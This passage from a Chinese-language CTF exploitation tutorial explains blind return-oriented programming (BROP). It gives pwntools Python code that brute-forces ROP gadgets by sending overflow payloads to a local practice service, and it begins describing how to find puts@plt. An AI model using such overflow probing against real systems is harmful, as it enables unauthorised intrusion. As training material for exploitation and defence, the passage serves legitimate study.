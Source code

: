 识别`brop gadgets`代码如下

```python
def get_brop_gadget(length, stop_addr, addr):
  try:
    io = remote('127.0.0.1',9999)
    io.recvuntil(b'WelCome my friend,Do you know password?\n')
    payload = b'a'*length + p64(addr) + p64(0)*6 + p64(stop_addr) + p64(0)*10
    io.sendline(payload)
    content = io.recv()
    io.close()
    print(content)
    # stop gadget returns memory
    if not content.startswith(b'WelCome'): <---注意这里判断的必须是 bytes 类型, 所以需要在string头加一个b
      return False
    return True
  except:
    io.close()
    return False
  
def check_brop_gadget(length, addr):
  """ Just for checking brop possible gadget """
  try:
    io = remote('127.0.0.1',9999)
    io.recvuntil(b'WelCome my friend,Do you know password?\n')
    payload = b'a'*length + p64(addr) + b'a'*8*10
    io.sendline(payload)
    io.close()
    return False
  except:
    io.close()
    return True
  
def brop_gadget(length, stop_gadget, init_addr):
  addr = init_addr
  while 1:
    print(hex(addr))
    if get_brop_gadget(length, stop_gadget, addr):
      print('possible brop gadget: 0x%x' % (addr))
      if check_brop_gadget(length, addr):
        print('success brop gadget: 0x%x' % (addr))
        break
    addr += 1
  return addr
```



### 确定 addr->puts@plt

> #### Method
>
> 1. 对于大多数 plt 调用来说，一般都不容易崩溃，即使是使用了比较奇怪的参数。所以说，如果我们发现了一系列的长度为 16 的没有使得程序崩溃的代码段，那么我们有一定的理由相信我们遇到了 plt 表。除此之外，我们还可以通过前后偏移 6 字节，来判断我们是处于 plt 表项中间还是说处于开头。
> 2. 寻找 puts 函数 (这里我们寻找的是`plt`)，我们自然需要控制 `rdi` 参数，在上面，我们已经找到了 `brop gadget`。那么，我们根据 `brop gadget` 偏移 `0x9` 可以得到相应的 `gadgets`（由 ret2libc_csu_init 中后续可得）。同时在程序还没有开启 PIE 保护的情况下，`0x400000` 处为 ELF 文件的头部，其内容为 `\ x7fELF`。所以我们可以根据这个来进行判断。一般来说，其 payload 如下
